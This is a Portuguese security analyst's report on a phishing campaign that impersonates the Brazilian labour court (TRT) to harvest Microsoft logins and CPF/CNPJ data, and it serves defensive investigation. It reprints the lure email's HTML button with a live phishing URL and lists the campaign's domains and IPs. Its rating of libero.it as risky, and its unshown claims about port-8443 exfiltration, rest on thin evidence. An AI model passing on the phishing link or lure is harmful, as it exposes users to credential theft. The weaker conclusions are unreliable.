# Análise de Email Phishing - Campanha Tribunal Regional de Trabalho

## RESUMO EXECUTIVO
Foi identificada e analisada uma campanha de phishing sofisticada, ativa em janeiro de 2026, que utiliza o nome do Tribunal Regional do Trabalho (TRT) como isca. O objetivo principal do ataque é o roubo de credenciais de contas Microsoft Live e a coleta de dados sensíveis (CPF/CNPJ) de cidadãos e profissionais do setor jurídico.

O fluxo do ataque é dividido em quatro estágios principais:
1- **Vetor de Entrada:** Envio massivo de e-mails com gatilhos de "intimidação e urgência", utilizando o domínio italiano libero.it.
2- **Engenharia Social e Evasão:** O link malicioso direciona a vítima para uma página protegida por **Cloudflare**. O uso de captchas e desafios de verificação humana serve tanto para dar credibilidade à página quanto para bloquear a análise por sistemas automatizados (sandboxes).
3- **Captura de Dados:** Uma página clone da Microsoft solicita o login. Após a captura, o fluxo redireciona a vítima para uma falsa interface do PJe, onde dados adicionais (documentos) são solicitados.
4- **Exfiltração (C2):** Os dados são enviados via scripts ofuscados para servidores de comando e controle (C2) operando em portas não convencionais.

Como descobertas técnicas relevantes nessa análise teve-se:
* **Ofuscação Avançada:** O script de captura (requisitions.js) utiliza técnicas de rotação de array e lógica hexadecimal para ocultar os endereços de exfiltração, dificultando a detecção por firewalls de aplicação.
* **Infraestrutura Oculta:** O atacante utiliza serviços de privacidade (`Njalla`, `Cloudflare`) e CDNs para mascarar os endereços IP reais dos servidores de backend, localizados possivelmente em infraestruturas de nuvem (Google Cloud Platform), entretando detectado como pertencente em VPS (Virtual Private Server) contido em estrutura mantida pelo **Locaweb Serviços de Internet SA**.
* **Portas de Comunicação:** A exfiltração ocorre pela porta 8443, frequentemente aberta em redes corporativas para tráfego HTTPS, permitindo que o roubo de dados passe despercebido por regras simples de tráfego.

## 1. ANÁLISE INICIAL DE EMAIL - CAIXA DE EMAIL
O email foi recebido no dia 22/12/2025, sendo direcionado para a pasta de lixo eletrônico pelos filtros do gerenciador de email do email destinatário.
Ao observar a mensagem, o mesmo fazia menção de origem à orgão governamental **TRT**(*Tribunal Regional de Trabalho*), com título intimidarótio **Intimação judicial – confira seus dados**, entretanto, ao analisar o remetente `Tribunal Brasil <mariana600065@libero.it>`, claramente foi possível observar a falta de relação do domínio utilizado, com o orgão governamental.
O conteúdo da mensagem, continha uma tabela, com os dados do "processo" mencionado pelo título e um botão ao final, para acesso a esse intitulado **🔎 Acessar Processo**.
A mensagem com uso de processo judicial, remetendo à uma forma de intimidação, assim como o uso do nome de um orgão governamental para simular autoridade sobre o conteúdo e validar a mesma, demonstram claramente uso de engenharia social na campanha de phishing, na tentiva de provocar medo e ansiedade na vítima, fazendo essa, acessar o "processo".

**Figura 1. Análise Inicial de Email**

## 2. ANÁLISE DO DOMÍNIO `libero.it`
A análise do domínio foi realizada com uso de ferramenta automatizada `Auto_Reputation`, essa, por sua vez, realizando consulta em motores de busca e base de dados sobre reputação e propriedades de domínios (`whois`, `Urlscan`, `Virus Total`...), disponível em [https://github.com/pcanossa/Auto_Reputation](https://github.com/pcanossa/Auto_Reputation).
O log da análise segue abaixo:
```bash
                                                                                                                                                                          
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ python auto_reputation.py 

=================SISTEMA DE ANÁLISE DE REPUTAÇÃO AUTOMÁTICA=================

TIPOS DE ANÁLISES DISPONÍVEIS
[1]. Análise de Domínio
[2]. Análise de IP
[3]. Análise de Scripts

===========================================================================

Digite o número da opção desejada: 1
Digite o nome do domínio a ser analisado (ex: example.com): libero.it
Coletando informações para o domínio: libero.it...

=========>> Analisando e gerando relatório...


--- Fim da Análise ---
[+] Relatório salvo com sucesso em: threat_report_libero_it.md
[+] Dados coletados salvo com sucesso em: threat_data_libero_it.txt

[+] SHA256 do relatório: f85c7bb9115ba1d044968f08fed827cb55766660a9baae4615c5fd535bd80aac
[+] SHA256 dos dados coletados: c9f28f42f9db18f67f117d935de5f6ae766d82c6e12a5b6e30246caaae2410f8
```

A análise por sua vez, retornou importantes evidências de atividades maliciosas oriundas do domínio `libero.it`.

### 2.1. Resumo
O domínio `libero.it` está registrado desde 1999 sob a organização **Italiaonline S.p.A.** (ITA) e utiliza os nameservers da própria provedora. O único registro DNS público resolve para o endereço IPv4 **213.209.17.209**, pertencente ao bloco de endereços da **Telecom Italia (AS12880)**, situado na **Itália (Milão/MI)**.  

Apesar de o relatório de reputação do VirusTotal indicar **reputação –5** (poucos indicadores de risco) e que todos os scanners de malware retornaram “harmless”, o domínio aparece em **mais de 30 pulsos** do AlienVault OTX associados a campanhas de **Pegasus, Quasar RAT, Exodus, Kimsuky, Tofsee, ransomware e phishing**. Diversas análises de URL (URLScan.io) mostram sub‑domínios que apontam para endereços IP de diferentes provedores (AWS, Google Cloud, servidores da própria Telecom Italia), sugerindo uso potencial como *infrastructure‑as‑service* por atores maliciosos (C2, entrega de payloads, redirecionamento de tráfego).  

Em suma, embora ainda não haja evidências de comprometimento direto de usuários finais, `libero.it` apresenta risco **médio‑alto** devido à sua presença em feeds de ameaças avançadas e ao histórico de associação com atividades de *phishing* e *malware distribution*.

**Figura 2- Análise do domínio no Alien Vault OTX e Virus Total.** Nota-se a ausência de indicadores claros por vendors no VT e de resultado final no AlienVault OTX em relação à caracterização como um domínio malicioso, entretanto, com reconhecimento de atividades maliciosas pela comunidade.

### 2.2. Análise de Comportamento
| Fonte | Evidência | Interpretação |
|------|------------|---------------|
| **VirusTotal** | Reputation –5; 0 malicious, 0 suspicious, 63 harmless; certificado TLS válido (Sectigo). | O domínio ainda não foi rotulado como malicioso pelos scanners tradicionais, mas a pontuação negativa indica que outros feeds já apontam risco. |
| **URLScan.io** (várias execuções) | Sub‑domínios como `digilander.libero.it`, `mail1.libero.it`, `blog.libero.it` resolve para IPs diferentes (ex.: 213.209.30.162, 18.66.122.28, 65.9.95.41, 3.162.125.98). | Padrão de **multi‑hosting** que pode ser usado para balanceamento ou para “camuflar” infraestrutura de comando e controle (C2). |
| **AlienVault OTX – Pulses** | - Pulses que citam “Pegasus Ongoing”, “Exodus | Cellbrite”, “Quasar RAT”, “Kimsuky”, “Tofsee”, “Ransomware”. <br>- Tags de *phishing*, *spam*, *drive‑by compromise*, *botnet*.<br>- Metadados: 5 votos de “malicious”, 0 harmless. | O domínio aparece em **inteligência de ameaças avançadas** que descrevem campanhas de espionagem (Pegasus), ransomware e botnets. |
| **WHOIS** | Registrado por **Italiaonline S.p.A.** (empresa de mídia/serviços Internet). | Não indica abuso direto, porém a data de atualização (2025) e a presença de um contato técnico ativo sugerem que o domínio ainda está em uso ativo. |
| **Cabeçalhos HTTP** | Redirecionamento 301 para `https://www.libero.it/`. | Indica que o domínio responde a requisições HTTP e pode ser usado como ponto de entrada para usuários. |
| **DNS** | Único A‑record para 213.209.17.209 (TTL 21332). | Endereço IP estável, mas pertencente a um bloco de grande porte que hospeda múltiplos clientes. |

### 2.3. Acesso à url do domínio
O acesso diretamente so domínio pelo navegador, demonstra que através desse, há a disponibilização de serviço de criação de emails e gerencimento. Isso motra, a alta probabilidade de criação de emails através do serviço disponibiizado, para uso em malicioso em campanhas de phishing, aumentando as chances de contornar a detecção por filtros de segurança de emails comuns, por originar-se de domínio de telefonia de até então, baixo uso para tal atividade, entretanto, já reportado por tais atividades permanecendo ainda com status de baixo risco pelas bases dados (Atividade emergente?).

**Figura 3- Acesso à url do domínio**.Observa-se o fornecimento do serviço de registro de emails em nome do domínio para terceiros.

## 3. ANÁLISE DE CABEÇALHO
A análise do cabeçalho, permitiu observar o domínio de origem do e-mail `libero.it`, correpondente ao IP `213.209.10.17`, com análise `PASS` de `SPF`, `DKIM` e `DMARC`, sendo esse correspondente como servidor de envio do domínio, permitindo também, através da análise dos saltos (hops), observar que a rede de origem de onde o e-mail foi originado, e enviadso ao servidor de e-mails `libero.it`, e correspondente à rede `SAMSUNG-58644.sa-east-1.compute.internal` correspondente ao IP `157.254.243.49`.

**Figura 4. Análise do cabeçalho do email.** Domínio proprietário do e-mail `libero.it` enviado pelo IP / servidor `213.209.10.17`. Rede de origem de criação do e-mail e de envio ao servidor de e-mail `SAMSUNG-58644.sa-east-1.compute.internal` correspondente ao IP `157.254.243.49`.

## 4. ANÁLISE DO IP `213.209.10.17`
A análise do IP `213.209.10.17` foi realizada com uso de ferramenta automatizada `Auto_Reputation`, essa, por sua vez, realizando consulta em motores de busca e base de dados sobre reputação e propriedades de IP (`whois`, `Urlscan`, `Virus Total`, `Shodan`...), disponível em [https://github.com/pcanossa/Auto_Reputation](https://github.com/pcanossa/Auto_Reputation).
O log da análise segue abaixo:

```Bash
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ python auto_reputation.py

=================SISTEMA DE ANÁLISE DE REPUTAÇÃO AUTOMÁTICA=================

TIPOS DE ANÁLISES DISPONÍVEIS
[1]. Análise de Domínio
[2]. Análise de IP
[3]. Análise de Scripts

===========================================================================

Digite o número da opção desejada: 2
Digite o endereço IP a ser analisado (ex: 192.168.0.1): 213.209.10.17
Coletando informações para o IP: 213.209.10.17...

=========>> Analisando e gerando relatório...


--- Fim da Análise ---
[+] Relatório salvo com sucesso em: /reports/threat_report_213_209_10_17.md
[+] Dados coletados salvo com sucesso em: threat_data_213_209_10_17.txt

[+] SHA256 do relatório: 226f96ddc1f18629d91d7238069166704bb411b5814fef621a4e03f27629acdc
[+] SHA256 dos dados coletados: 14074e4448a24ba373b04b0008ef90c19b232f6777903dd104babeea9c7c6db6
```

### 4.1. Resumo
O endereço `213.209.10.17` pertence à rede da **Italiaonline S.p.A.** (ASN 8660) e está situado em **Milão, Lombardia, Itália**. Os dados públicos não revelam portas abertas, serviços ou vulnerabilidades conhecidas; a tentativa de conexão HTTP (porta 80) foi recusada. O hostname `smtp-17.italiaonline.it` indica que o IP provavelmente hospeda um serviço de `SMTP` (portas 25/587). Não há registros de abuso, scores de risco ou indicadores de comprometimento em bases como AbuseIPDB, AlienVault OTX ou VirusTotal. Em suma, o endereço parece ser parte da infraestrutura legítima de e‑mail da Italiaonline, com **baixo nível de suspeita** até o momento.

### 4.2. Análise de Comportamento
| Fonte | Indicador | Avaliação |
|-------|-----------|-----------|
| **Shodan** | Página 404 → “No information available” | Nenhum serviço visível; ausência de fingerprint de botnet, scanner ou C2. |
| **cURL (porta 80)** | Conexão recusada | Servidor HTTP não está exposto; pode indicar que o IP não oferece web ou que a porta está bloqueada por firewall. |
| **Hostname** | `smtp-17.italiaonline.it` | Sugere função de servidor de correio (SMTP). Nenhum registro de uso como relay aberto ou spam encontrado. |
| **AbuseIPDB** | `abuseConfidenceScore = 0`, `totalReports = 0` | Histórico limpo; não há denúncias de abuso ou comprometimento. |
| **AlienVault OTX** | Nenhum *pulse* associado | Não há menções a campanhas maliciosas ou indicadores de comprometimento. |
| **VirusTotal** | Resposta 200 (sem detalhe) | Sem submissões de amostras ou detecções ligadas ao IP. |

### 4.3. Relação IP `213.209.10.17` x domínio `libero.it`
Conforme análise anterior, foi possível observar que o domínio `libero.it` responde ao IP `213.209.17.209` pelo DNS, sendo esse IP contido dentro da faixa de propriedade da **Italiaonline S.p.A.**, sendo inclusive o domínio, de propriedade dessa.
Ao analisar o IP `213.209.10.17`, foi possível observar, que ele também está dentro da faixa de propriedade da **Italiaonline S.p.A.**, sendo um servidor `SMTP`, correpondendo à seu uso como servidor de e-mails para domínios de sua propriedade, como no caso do `libero.it`.
Essa análise, comfirma o status `PASS` pelo `SPF`, `SKIM` e `DMARC`.

**Figura 5. Relação IP `213.209.10.17` x domínio `libero.it`**. Na consulta pelo IP `213.209.10.17` pelo `whois`, é observado esse estar dentro da faixa de propriedade da **Italiaonline S.p.A.**. Na consulta do domínio `libero.it` pelo `whois`, é observado ser de propriedade da **Italiaonline S.p.A.**

## 5. ANÁLISE DO IP `157.254.243.49`
A análise do `157.254.243.49`, foi realizada pela ferramenta automarizada `Auto_Reputaion` já anteriormente mencionada, `BGP Hurricane Eletronics `, `Scamnalytics` e `nslookup` para aprofundamento em OSINT. 
O log da análise segue abaixo:

```Bash                                      
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ python auto_reputation.py

=================SISTEMA DE ANÁLISE DE REPUTAÇÃO AUTOMÁTICA=================

TIPOS DE ANÁLISES DISPONÍVEIS
[1]. Análise de Domínio
[2]. Análise de IP
[3]. Análise de Scripts

===========================================================================

Digite o número da opção desejada: 2             
Digite o endereço IP a ser analisado (ex: 192.168.0.1): 157.254.243.49
Coletando informações para o IP: 157.254.243.49...

=========>> Analisando e gerando relatório...


--- Fim da Análise ---
[+] Relatório salvo com sucesso em: /reports/threat_report_157_254_243_49.md
[+] Dados coletados salvo com sucesso em: threat_data_157_254_243_49.txt

[+] SHA256 do relatório: 9477373b106adbd3aa194b6e7c93bf4475df95711c0a97d62e95241c410de700
[+] SHA256 dos dados coletados: 2957020a05cc358e4d5bd8ab7673de6b345e0221bdeeb1a7799c641ff73d6b92
```

### 5.1. Resumo
O endereço `157.254.243.49` está localizado em **New York City, NY, Estados Unidos**, pertencente ao **ASN AS9009 – M247 Europe SRL** e registrado sob a organização **Internet Utilities NA LLC** (também associado à Vantiva). O único serviço exposto detectado pelo Shodan é a **porta 1180** (sem banner ou fingerprint específico). Não há registros de abuso (AbuseIPDB score 0), nem menções a pacotes maliciosos em OTX ou outros feeds. Não foram encontradas vulnerabilidades (CVEs) associadas ao serviço detectado. O host foi visto pela última vez em 14 de dezembro 2025. Em testes de conexão via HTTP (porta 80) a resposta foi “Connection refused”.
Apesar do score de abuso ser 0 no momento da consulta, o IP é originário de uma infraestrutura de data center (M247) frequentemente utilizada para mascaramento de tráfego (VPN/Proxy). O fato de ser o ponto de origem de uma campanha de phishing confirmada (conforme cabeçalhos analisados) indica que o host está sendo utilizado como 'Proxy' ou 'Bot' em uma botnet, independentemente da ausência de registros prévios em bases como AbuseIPDB.
Quando analisado o IP, vemos que ele pertence à rede **AS9009**. Ao cruzar isso com registros de tráfego global (BGP) [https://bgp.he.net/AS9009](https://bgp.he.net/AS9009), notamos que a **M247** tem servidores em quase todos os grandes centros de dados do mundo. Essa infraestrutura massiva e distribuída é o "esqueleto" perfeito para empresas de VPN (como NordVPN, Surfshark e ProtonVPN) alugarem servidores e oferecerem nós de saída aos usuários.
A análise de reputação via `Scamalytics` [https://scamalytics.com/ip/157.254.243.49](https://scamalytics.com/ip/157.254.243.49) atribuiu um *Fraud Score* de 46 (Risco Médio), identificando o host como um nó de saída de anonymising VPN operado pela **Internet Utilities NA LLC**. Essa evidência corrobora a tese de ocultação de identidade por parte do remetente.
Ao utilizar a ferramenta `nslookup` para mapeamento do servidor DNS correspondente ao IP, foi obtido retorno desse não ser encontrado, reforçando a origem do IP como nó de anonymising (VPN).
```Bash
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ nslookup 157.254.243.49
** server can't find 49.243.254.157.in-addr.arpa: NXDOMAIN
```

**Figura 6. Análise do IP `157.254.243.49`**. Análise pelo `shodan`, retornando IP ser de propriedade da ISP **ASN AS9009 – M247 Europe SRL**. Análise pelo `BGP HE`, confirmando a multilocalidade d ISP, distribuida mundialmente.
</br>

**Figura 7. Análise de IP pelo Scamnalytics**. Retorno de risco médio de fraude e host como um nó de saída de VPN

### 5.2. Análise de Comportamento
| Fonte | Indicador | Observação |
|-------|------------|------------|
| **Shodan** | Porta 1180 aberta | Única porta listada; sem banner detalhado. |
| **AbuseIPDB** | Abuse Confidence Score 0 | Nenhum reporte de abuso ou atividade maliciosa. |
| **OTX** | Pulses 0 | Nenhum pulse ou indicador de comprometimento. |
| **cURL (porta 80)** | Conexão recusada | Não há serviço HTTP público. |
| **URLScan.io / VirusTotal** | Sem resultados | Nenhuma amostra ou análise de arquivos/malware. |
| **Scamnalytics** | Fraud Score 46 | Risco médio; saída de anonymising VPN |

## 6. ANÁLISE DE BOTÃO DO EMAIL
Conforme infromado na análise do conteúdo do email, esse, tinha um botão para "acesso ao processo", contendo um link `https://acess200.acessoportalatendimento.app/`. Nota-se que o domínio da url do botão, não apresenta relações com o domínio utilizado para envio do email `libero.it`, confirmando, que tal, só é utilizado para envios de email na campnha phishing, dessa forma, sem relação da infraestrutura da `libero.it` com o golpe.
O trecho abaixo, foi retirado do documento de email `.MSG`, mostrando a estrutura do botão dentro do conteúdo do email, podendo essa, ser visualizada no documento `Intimação judicial – confira seus dados.msg`.
```HTML
<!-- Botão -->
              <div style="text-align:center; margin-top:30px;">
                <a href="https://acess200.acessoportalatendimento.app/" style="background-color:#003366; color:#ffffff; padding:14px 28px;
                          text-decoration:none; font-weight:bold; border-radius:5px;
                          display:inline-block; font-size:16px;">
                  🔎 Acessar Processo
                </a>
              </div>
```

## 7. ANÁLISE DO DOMÍNIO `acessoportalatendimento.app`
Para análise do domínio, foi utilizada a ferramenta automatizada de análise `Auto_Analisys`, já anteriormente referenciada nesse documento.
O log obtido pela análise segue abaixo:

```Bash                                    
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ python auto_reputation.py 


=================SISTEMA DE ANÁLISE DE REPUTAÇÃO AUTOMÁTICA=================

TIPOS DE ANÁLISES DISPONÍVEIS
[1]. Análise de Domínio
[2]. Análise de IP
[3]. Análise de Scripts

===========================================================================

Digite o número da opção desejada: 1
Digite o nome do domínio a ser analisado (ex: example.com): acessoportalatendimento.app
Coletando informações para o domínio: acessoportalatendimento.app...

=========>> Analisando e gerando relatório...


--- Fim da Análise ---
[+] Relatório salvo com sucesso em: threat_report_acessoportalatendimento_app.md
[+] Dados coletados salvo com sucesso em: threat_data_acessoportalatendimento_app.txt

[+] Hashes de integridade salvas com sucesso em: /reports/acessoportalatendimento_app_analysis_sha256_hashes.txt
```

### 7.1. Resumo
O domínio `acessoportalatendimento.app` foi registrado em 29/04/2025 por um registrante ofuscado (país listado como **Saint Kitts and Nevis**) por meio do registrador **TUCOWS Domains, Inc.**. As zonas de DNS são hospedadas na **Cloudflare** (nameservers `elias.ns.cloudflare.com` e `opal.ns.cloudflare.com`).  
Os servidores de resolução apontam para endereços IP de edge da Cloudflare (ex.: `104.26.8.96`, `104.21.7.199`, `172.67.156.69`). Nenhum dos scanners de reputação (VirusTotal) identificou o domínio como malicioso – todos os 93 engines retornaram **harmless** ou **undetected**. O OTX não possui “pulses” associados.
Entretanto, vários **sub‑domínios** (`acess200.acessoportalatendimento.app`, `access01.acessoportalatendimento.app`, `acess01.acessoportalatendimento.app`, `acesso2002.acessoportalatendimento.app`, `holmes456.acessoportalatendimento.app`, entre outros) foram submetidos ao **Urlscan.io** e aparecem marcados com a tag *falconsandbox*, indicando que foram analisados em sandboxes e/ou utilizados em testes de análise automática.  
Não há indícios claros de botnet, C2 ou campanhas de phishing diretamente vinculadas ao domínio principal, mas a presença de múltiplos sub‑domínios apontando para IPs de Cloudflare e a inclusão em sandbox‑feeds sugerem que o domínio pode estar sendo usado como **infraestrutura de carga** (hosting, redirecionamento ou entrega de conteúdo) por atores que preferem aproveitar a reputação neutral da camada de CDN.  
Em síntese, o domínio **não é considerado malicioso** pelos principais scanners, mas **exibe sinais de potencial uso em atividades suspeitas** (sandbox‑feeds, sub‑domínios variados). Recomenda‑se tratá‑lo como risco **moderado** e monitorar sua atividade.  

**Figura 8. Análise do Domínio `acessoportalatendimento.app`.** Análise do domínio pelo whois, exibindo registro pelo **TUCOWS Domains, Inc.** ofuscando identidade, e zonas DNS pela Cloudflare, para obfuscação por WAF da estrutura dessa, do IP de hospedagem do domínio, confirmado pelo uso da ferramenta `dig`. Análise do dompinio no `Urlscan`, evidenciando inúmeros subdomínios investigados, com identificações numéricas semelhantes, caracterizando possível infraestrutura “as‑a‑service”.

### 7.2. Análise de Comportamento
| Fonte | Evidência | Interpretação |
|-------|-----------|----------------|
| **VirusTotal** | 0 malicious, 0 suspicious, 61 harmless, 32 undetected | O domínio ainda não foi marcado como ameaça pelos scanners tradicionais; a ausência de deteções não garante que seja benigno. |
| **Urlscan.io** | 13 variações de sub‑domínios submetidas (ex.: `acess200`, `access01`, `holmes456`). Todas apontam para IPs da Cloudflare (104.x.x.x, 172.67.x.x). | O domínio está sendo usado como ponto de entrega/redirecionamento em sandboxes. A presença de múltiplos sub‑domínios pode indicar **infraestrutura “as‑a‑service”** para diferentes campanhas ou teste automatizado. |
| **AlienVault OTX** | Nenhum pulse encontrado. | Nenhum relato público de campanha conhecida usando o domínio até o momento. |
| **DNS** | Nameservers Cloudflare, sem DNSSEC (delegação não assinada). | O domínio depende de infraestrutura da Cloudflare, que pode mascarar a origem real dos servidores de aplicação. |
| **cURL** | Falha de resolução – “Could not resolve host”. | O domínio só resolve via Cloudflare; pode estar configurado com política de bloqueio de requisições diretas (ex.: “scrape protection”). |
| **Whois/RDAP** | Registrante e contato ofuscados (dados aleatórios), registro recente (2025). | Indicação de uso possivelmente **temporário** ou de “*fast‑flux*”‑style, onde o registrante tenta esconder identidade. |

### 7.3. Busca pelo IP
Pesquisado o IP pela ferramenta `dig`, sendo confirmado registro em zonas de DNS hospedadas nos servidores **Cloudflare**, bem como do subdomínio presente na url do botão `acess200.acessoportalatendimento.app`, retornando IP de faixa de propriedade de servidores **Cloudflare**, evidenciando a obfuscação do IP do servidor legítimo de hospedagem do domínio `acessoportalatendimento.app`.

```Bash                                              
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ dig acessoportalatendimento.app

; <<>> DiG 9.20.15-2-Debian <<>> acessoportalatendimento.app
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35809
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;acessoportalatendimento.app.   IN      A

;; AUTHORITY SECTION:
acessoportalatendimento.app. 5  IN      SOA     elias.ns.cloudflare.com. dns.cloudflare.com. 2392444970 10000 2400 604800 1800

;; Query time: 155 msec
;; SERVER: 192.168.192.2#53(192.168.192.2) (UDP)
;; WHEN: Fri Jan 09 13:59:15 EST 2026
;; MSG SIZE  rcvd: 119
```

```Bash                                                  
┌──(auto)─(kali㉿kali)-[~/Auto_Reputation]
└─$ dig acess200.acessoportalatendimento.app            

; <<>> DiG 9.20.15-2-Debian <<>> acess200.acessoportalatendimento.app
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 57043
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 512
;; QUESTION SECTION:
;acess200.acessoportalatendimento.app. IN A

;; ANSWER SECTION:
acess200.acessoportalatendimento.app. 5 IN A    172.67.156.69
acess200.acessoportalatendimento.app. 5 IN A    104.21.7.199

;; Query time: 75 msec
;; SERVER: 192.168.192.2#53(192.168.192.2) (UDP)
;; WHEN: Fri Jan 09 14:36:29 EST 2026
;; MSG SIZE  rcvd: 97
```
Buscas por subdomínios como `smtp`, `dev`, `ftp`, e busca pelo **MX** e **TXT** através da ferramenta `dig` retornaram mesmos IPs ou servidores DNS.
A busca pela biblioteca de arquivos da internet `Archive - Wayback Machine` pelo domínio, não retornou nenhum registro, talvez pelo breve tempo de exposição da landing page, ou pela inexistência desde a criação do domínio, reforçando-o como possível infraestrutura “as‑a‑service”.


**Figura 9 e 10. Análise de registro DNS, MX e TXT**. Retorno de análise pela ferramenta online `DNSDumpster` (`https://dnsdumpster.com/`), retornando todos IPs resolvidos para **Cloudflare**, evidenciando a ofuscação do IP real pelo WAF.

## 7.4. Busca por Histórico de Registros
Realizada a busca pelos históricos de registros do domínio `acessoportalatendimento.app` através da ferramenta online `CopleteDNS`, essa, retornando um registro de 8 dias anteriores à migração do registro nos servidores DNS da **Cloudflare**:
**Nameservers**:
* 2025 - May 1
  * `1-you.njalla.no` 
  * `-can.njalla.in`
  * `-get.njalla.fo`
* 2025 - May 9
  * `elias.ns.cloudflare.com`
  * `opal.ns.cloudflare.com`

O `Njalla` é um serviço de registro e hospedagem focado em anonimato radical (criado por fundadores do **Pirate Bay**) que aceita criptomoedas como método de pagamento para os registros, mantendo o anonimato dop registrante, demonstrando a busca pela anonimização da identidade desde o início da aitvidade do domínio, para dificultar sua identificação em investigações.

**Busca por Histórico de Registros do domínio `acessoportalatendimento.app`**. Registros retornados na consulta de histporicos, pela ferramenta online `CompleteDNS` (`https://completedns.com/dns-history/`), exibindo registro inicial do domínio pelo provedor `Njalla`, como método de registro anonimizado. Página do provedor `Njalla`, declrando a oferta de serviços "Provacy as a Service", aceitando métodos de pagamento por criptomoedas (`https://njal.la/` e `https://njal.la/pricing/`).

## 7.5. Pesquisa de Registro de Certificados
Após identificado o registro do domínio, anterior ao uso da ofuscação pela **Cloudflare**, foi realizada a busca de certificados `SSL` emitidos na data anterior ao registro nos servidores DNS da **Cloudflare**, na tentaiva da identificação do IP real do servidor de onde o domínio está registrado. Para isso, foi utilizada a ferramenta online `Crt.sh` para localizar todos os certificados emitidos para o domínio `*.acessoportalatendimento.app` (`https://crt.sh/?q=*.acessoportalatendimento.app`).
A pesquisa, retornou certificado registradso pelo **Google Trust Services**, sugerindo possível hospedagem da estrutura do domínio na **Google Cloud Platform**.
**Registro:** (`https://crt.sh/?id=18254819658`)
* 2025-05-06
  * **Issuer Name:** C=US, O=Google Trust Services, CN=WE1
  * **Fingerprint SHA256:** `E539CAD0D0DFCD34C6AA073EF8D8E7716777799081F8BE6B6465E8024B410E7C` 
  * **Log Operator:**
    * `2025-05-06  16:31:44 UTC	` | **Google** | `https://ct.googleapis.com/logs/eu1/xenon2025h2`
    * `2025-05-06  16:31:44 UTC	` | **Cloudflare** | `  https://ct.cloudflare.com/logs/nimbus2025`

Embora o registro seja pelo **Google Trust Services**, nota-se pelo `Log Operator` que o certificado foi efetivamente utilizado via Cloudflare, mesmo antes de o domínio estar “visível”, o que permitiu a ocultação do IP real do servidor de hospedagem do domínio, mesmo antes desse ser disponibilizado para acesso.

**Pesquisa de Registro de Certificados**. Resultado obtida em pesquisa pela ferramenta online `Crt.sh` (`https://crt.sh/?q=*.acessoportalatendimento.app`), retornando registro incial pelo **Google Trust Services**, porém, ao acessar os dados de registro do certificado, verificado que esse, também havia sido registrado na **Cloudflare**.

### 7.6. Análise pelo Censys

Embora a análise tenha identificado IPs da **Cloudflare**, a análise do domínio, com a ferramenta online `Censys` (`https://platform.censys.io/search?q=acessoportalatendimento.app`) retornou esse, estar contido em VPS de prorpiedade da **Localweb Serviços de Internet SA** (AS 27715) em estruturta localizada em **São Paulo-BR**, com hostname `vpsw4940.publiccloud.com.br` e sistema operacional **Microsoft Windows**, respondendo pelo IP `191.252.156.7`. O uso de uma VPS nacional é uma tática comum para ataques contra brasileiros, pois diminui a latência, evita alertas de "login de país suspeito" e dificulta o bloqueio por geolocalização.
